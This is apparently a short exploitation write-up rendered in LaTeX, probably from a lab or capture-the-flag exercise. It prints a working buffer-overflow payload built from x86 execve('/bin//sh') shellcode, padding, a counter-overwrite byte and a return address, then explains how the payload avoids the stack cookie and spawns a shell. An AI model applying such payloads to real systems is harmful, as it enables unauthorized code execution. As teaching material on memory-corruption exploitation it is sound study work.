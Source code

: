 \documentclass[a4paper]{article}
\begin{document}
\begin{verbatim}
    exploit  = "\x31\xC0"
    exploit += "\x50"
    exploit += "\x68\x2F\x2F\x73\x68"
    exploit += "\x68\x2F\x62\x69\x6E"
    exploit += "\x89\xE3"
    exploit += "\x50"
    exploit += "\x53"
    exploit += "\x89\xE1"
    exploit += "\x99"
    exploit += "\xB0\x0B"
    exploit += "\xCD\x80"
    exploit += "A" * 16
    exploit += "\x3B"
    exploit += "A" * 19
    exploit += "\xA6\x85\x04\x08"
\end{verbatim}
The first many lines before "A" is the shellcode for getting a shell. These equal $24$ bytes in total. The next $16$ bytes we fill with $A$'s to get to the address where the counter is. We can now overwrite this with $0x3c$, which will mean we write to the return address on the next iteration of the loop. We overwrite this with the address on the return call from \texttt{main} (the $19$ $A$'s are because it fetches from our argument with the same offset). \\
Now, we have not overwritten the cookie, so we survive the check to see if we had overwritten it. When we hit the return call in \texttt{parse}, we actually return from \texttt{main}. Since we skipped the \texttt{leave} call, the program simply runs the shellcode as nothing has been "cleaned" up. This is the shellcode we wrote to get a shell!
\end{document}
